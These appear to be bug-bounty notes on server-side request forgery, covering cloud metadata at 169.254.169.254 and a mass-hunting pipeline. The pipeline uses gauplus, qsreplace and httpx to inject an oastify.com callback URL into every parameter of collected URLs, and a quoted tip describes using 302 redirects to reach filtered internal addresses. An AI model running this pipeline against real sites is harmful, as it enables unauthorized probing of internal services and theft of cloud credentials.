 These are [dynamically configured link-local addresses](https://www.rfc-editor.org/rfc/rfc3927). They are only valid on a single network segment and are not to be routed.

Of particular note, 169.254.169.254 is used in [AWS](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html), [Azure](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows), [GCP](https://cloud.google.com/compute/docs/metadata/querying-metadata) and other <mark style="background: #FFB86CA6;">cloud computing platforms to host instance metadata service.</mark>

## Quick SSRF Mass Hunting Methodology:

#SSRF 

-- collect subs and alive ones.

```bash
cat all-live.txt | gauplus -subs -b png,jpg,gif,jpeg,swf,woff,gif,svg -o allUrls.txt
```


```bash
cat allUrls.txt | grep "=" | qsreplace http://troupga5ke78yjdu4hv12s1v2m8dw3ks.oastify.com > ssrf.txt
```

```
cat ssrf.txt | httpx -fr
```

- -fr is for follow redirect.

_If any url is vulnerable to SSRF will be show in burp collaborator.

![](https://miro.medium.com/v2/resize:fit:875/1*rdOcMPLSLLB3_rld31mC2A.png)

## Step 6: How to check which URL is vulnerable

Once you confirmed that ssrf.txt file contains a URL which is vulnerable to SSRF.

Divide the File in multiple files with the following command

```
split -l 10 ssrf.txt output_file_prefix
```

The above command going to create 10 different file.  
Clear the Burp Collaborator first.  
Check each file with the same command mentioned in step 5.

**If any interaction shown check each URL manually. (If this file is big, again split it)**

That’s all. You get your SSRF vulnerable URL.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 

I continued researching till i found this one :

> It might be possible that the server is **filtering the original request** of a SSRF **but not** a possible **redirect** response to that request. For example, a server vulnerable to SSRF via: `url=https://www.google.com/` might be **filtering the url param**. But if you uses a [python server to respond with a 302](https://pastebin.com/raw/ywAUhFrv) to the place where you want to redirect, you might be able to **access filtered IP addresses** like 127.0.0.1 or even filtered **protocols** like gopher.
